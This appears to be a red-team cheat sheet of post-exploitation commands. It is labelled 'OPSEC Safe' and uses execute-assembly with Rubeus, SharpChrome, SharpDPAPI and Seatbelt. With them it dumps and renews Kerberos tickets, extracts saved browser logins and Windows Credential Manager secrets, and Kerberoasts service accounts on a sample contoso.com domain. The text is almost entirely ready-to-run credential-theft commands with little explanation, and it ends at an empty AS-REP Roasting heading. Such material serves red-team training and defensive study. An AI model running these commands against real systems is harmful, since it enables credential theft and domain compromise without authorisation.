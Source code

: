 
#### OPSEC Safe
Extracting tickets + renewing them
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0xd42c80 /service:krbtgt /nowrap
```

```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFq[...snip...]uQ09N

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap
```



Browser credentials
```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpChrome\bin\Release\SharpChrome.exe logins
```

Windows Credential Manager
```powershell
run vaultcmd /listcreds:"Windows Credentials" /all
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

```powershell
execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc
```

 Kerberoasting
```powershell
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe -s "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" --attributes 
```

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /spn:MSSQLSvc/lon-sql-1.contoso.com:1433 /simple /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /simple /nowrap
```

AS-REP Roasting
```
```